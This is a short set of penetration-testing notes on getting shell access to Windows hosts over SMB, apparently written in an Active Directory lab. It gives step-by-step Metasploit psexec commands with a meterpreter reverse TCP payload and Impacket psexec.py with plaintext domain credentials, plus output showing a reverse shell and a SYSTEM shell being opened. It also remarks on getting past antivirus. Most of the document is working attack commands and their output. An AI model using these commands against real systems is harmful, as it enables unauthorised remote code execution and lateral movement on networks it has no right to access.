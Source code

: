 # Shell Access

## SMB - PSExec

### With Metasploit

```msfconsole```
- we can seach psexec or type:
```use exploit/windows/smb/psexec```
```show options```
- We need to set rhosts, lhost, smbdomain, smbpass and smbuser
- We also need to set the payload depending on our target for instance `windows/x64/meterpreter/reverse_tcp`
- We should get a shell
```
[*] Started reverse TCP handler on 10.0.2.8:4444 
[*] 10.0.2.4:445 - Connecting to the server...
[*] 10.0.2.4:445 - Authenticating to 10.0.2.4:445|marvel.local as user 'fcastle'...
[*] 10.0.2.4:445 - Selecting PowerShell target
[*] 10.0.2.4:445 - Executing the payload...
[+] 10.0.2.4:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 10.0.2.4
[*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.4:51468 ) at 2022-02-04 10:28:51 -0500

meterpreter > 
```
### With Impacket - psexec.py

Can be useful if meterprer is picked up by AV.
```
┌──(kali㉿kali)-[~]
└─$ psexec.py marvel.local/fcastle:Password1@10.0.2.4                                                                                                                                                                                    1 ⨯
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.4.....
[*] Found writable share ADMIN$
[*] Uploading file OKJXcwkr.exe
[*] Opening SVCManager on 10.0.2.4.....
[*] Creating service tDbW on 10.0.2.4.....
[*] Starting service tDbW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
- We can also try with: wmbexec.py or wmiexec.py (same command except for name of the script of course)
